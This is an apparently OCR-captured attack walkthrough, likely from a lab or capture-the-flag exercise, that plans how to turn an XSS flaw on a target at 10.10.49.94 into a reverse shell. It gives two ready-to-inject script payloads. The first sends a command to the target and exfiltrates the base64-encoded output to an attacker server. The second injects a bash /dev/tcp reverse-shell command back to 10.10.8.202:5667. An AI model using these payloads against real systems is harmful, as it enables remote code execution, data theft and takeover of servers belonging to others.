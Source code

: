 ✅ **Why This Will Work:**

- **XSS works**, meaning we can execute JavaScript.
- **fetch() works**, meaning we can communicate with `10.10.49.94`.
- If the victim’s **session allows requests**, we can trigger **code execution** to spawn a **reverse shell**.

---

## **🛠️ Plan for Getting a Reverse Shell**

1️⃣ **Try executing system commands via XSS.**  
2️⃣ **Deliver a payload that downloads & executes a reverse shell.**  
3️⃣ **Start a Netcat listener to catch the connection.**

---

## **1️⃣ Test If We Can Execute Commands via XSS**

First, we need to check if the target can execute system commands.  
Inject this payload:

```html
<script>
fetch("http://10.10.49.94:8080/", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "cmd=id"
})
  .then(res => res.text())
  .then(output => {
    fetch("http://10.10.8.202:5667/?cmd_output=" + btoa(output)); // Send output to our server
  });
</script>
```

✅ **If this works, the server executed `id`, meaning RCE is possible!**

---

## **2️⃣ Try Spawning a Reverse Shell**

If command execution works, inject this **reverse shell payload**:

```html
<script>
fetch("http://10.10.49.94:8080/", {
  method: "POST",
  headers: { "Content-Type": "application/x-www-form-urlencoded" },
  body: "cmd=bash -i >& /dev/tcp/10.10.8.202/5667 0>&1"
});
</script>
```
